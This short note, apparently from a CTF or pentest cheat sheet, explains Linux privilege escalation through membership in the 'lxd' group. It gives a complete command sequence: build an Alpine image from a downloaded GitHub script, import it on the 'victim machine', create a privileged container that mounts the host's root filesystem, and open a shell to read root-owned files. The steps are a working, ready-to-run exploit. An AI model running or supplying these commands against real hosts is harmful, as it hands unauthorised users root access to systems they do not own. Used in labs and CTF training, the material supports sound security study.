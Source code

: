 Check for user group memberships by means of the shell command `id`.

### LXD group 

LXD is a system container and virtual machine manager. If a local user belongs to "lxd" group, then it could instantly escalate the privileges to root on the host operating system.

On the attacker machine:

- Download build-alpine:

      wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
      
- Execute the script that will build an Alpine image as compressed `tar.gz` file:

      sudo bash build-alpine
      
- Transfer the `tar.gz` file to the target machine.


On the victim machine:

- Add the Alpine image as an LXD image:

      lxc image import ./alpine-v3.15-x86_64-20220114_1458.tar.gz --alias alpine_image

- Check the imported image (you should see an image called "alpine_image"):

      lxc image list
      
- Exploit:

      lxc init alpine_image ignite -c security.privileged=true
      lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
      lxc start ignite
      lxc exec ignite /bin/sh
      
Once inside the container, navigate to `/mnt/root` to see the whole filesystem of the victim machine.
You could access to `/mnt/root/root` to retrieve a flag.
